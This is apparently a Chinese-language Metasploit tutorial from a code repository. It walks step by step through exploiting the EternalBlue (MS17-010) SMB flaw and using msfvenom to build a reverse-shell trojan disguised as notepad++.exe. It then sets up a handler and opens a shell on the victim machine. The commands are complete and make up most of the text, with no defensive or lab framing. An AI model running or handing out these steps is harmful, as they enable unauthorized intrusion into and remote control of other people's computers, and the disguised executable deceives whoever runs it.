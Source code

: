 ### 1.使用永恒之蓝攻击
#### 1.1 打开metasploit framework控制台
```shell
msfconsole
```
#### 1.2 搜索永恒之蓝漏洞编号,ms17_010是永恒之蓝的编号,也可以搜索EternalBlue
```shell
search ms17_010
```
![永恒之蓝搜索结果.png](永恒之蓝搜索结果.png)
#### 1.3 使用模块
上图里提示可以通过使用编号或者名称来使用模块。auxiliary是辅助模块，可以先不管
```shell
use 0
# 等价于使用use exploit/windows/smb/ms17_010_eternalblue
```
![img.png](永恒之蓝模块使用后的显示.png)
永恒之蓝需要使用的payload是windows/x64/meterpreter/reverse_tcp，图中提示可以看出，虽然我们没有配置payload，但是系统默认的就是windows/x64/meterpreter/reverse_tcp，如果不是的话，需要修改。
#### 1.4 查看可选配置
```shell
options
# 或者show options
```
![img.png](永恒之蓝可选配置.png)
其中Required为yes的表示必填项,由图中可看出,我们只需要配置RHOSTS,也就是目标机器的IP。
#### 1.5 配置
如果默认payload不对，需要修改为windows/x64/meterpreter/reverse_tcp
```shell
set payload windows/x64/meterpreter/reverse_tcp
```
配置目标机器IP
```shell
set RHOSTS 127.0.0.1
```
#### 1.6 运行
```shell
run
```
### 2.植入木马攻击
生成木马使用msfvenom
#### 2.1 生成木马
```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -x notepad++.exe -o notepad++.exe
```
-p 要使用的模块

lhost 监听机器的ip,一般是本机ip

lport 监听端口

-f 文件格式

-x 要假冒的exe程序,需要为完整的路径,Linux能找到的一个exe文件

-o 输出文件

执行完之后会在当前目录生成一个notepad++.exe。

#### 2.2 木马监听
##### 2.2.1 使用模块
```shell
search exploit/multi/handler
use search exploit/multi/handler
```
#### 2.2.2 查看及配置
```shell
options
```
![img.png](监听木马配置.png)
可以看见图中的payload与上面配置的不一样
```shell
# 这三个配置要和上面生成木马的配置一模一样
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 9999
```
#### 2.2.3 启动
```shell
run
```
### 2.3 等待目标执行exe程序
目标机器启动该程序后，
![img.png](成功后的结果.png)
出现meterpreter后就表示控制远程机器成功,上面的永恒之蓝如果入侵成功，同样会出现此提示。

### 3 控制目标机器
在获取到了meterpreter之后，就可以执行shell，进入对方的命令窗口。
```shell
shell
```
![img.png](进入对方机器的命令窗口.png)